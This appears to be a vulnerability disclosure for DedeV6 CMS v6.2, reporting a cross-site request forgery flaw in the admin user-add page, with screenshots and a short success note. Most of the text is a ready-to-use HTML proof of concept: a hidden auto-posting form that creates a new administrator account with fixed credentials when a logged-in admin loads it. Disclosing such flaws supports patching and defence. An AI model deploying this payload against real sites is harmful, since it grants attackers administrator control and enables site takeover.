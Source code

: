 Target is https://github.com/DedeBIZ/DedeV6

version:6.2

DedeV6 CMS v6.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/sys_admin_user_add.php.

![1699360243454](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator01.png)

create poc

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator02.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://dedev/admin/sys_admin_user_add.php" method="POST">
      <input type="hidden" name="&#95;csrf&#95;token" value="4865b0169e2d05daed5c1fc387b7b01f" />
      <input type="hidden" name="dopost" value="add" />
      <input type="hidden" name="userid" value="verify" />
      <input type="hidden" name="uname" value="verify" />
      <input type="hidden" name="pwd" value="verify" />
      <input type="hidden" name="usertype" value="10" />
      <input type="hidden" name="typeids&#91;&#93;" value="0" />
      <input type="hidden" name="tname" value="verify" />
      <input type="hidden" name="email" value="verify&#64;gmail&#46;com" />
      <input type="hidden" name="safecode" value="2ab53885e6a4f85e0a935c2f" />
      <input type="hidden" name="randcode" value="27950" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator03.png)

successed

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/dedevCMS/images/dedevCMS6_Add_Administrator04.png)
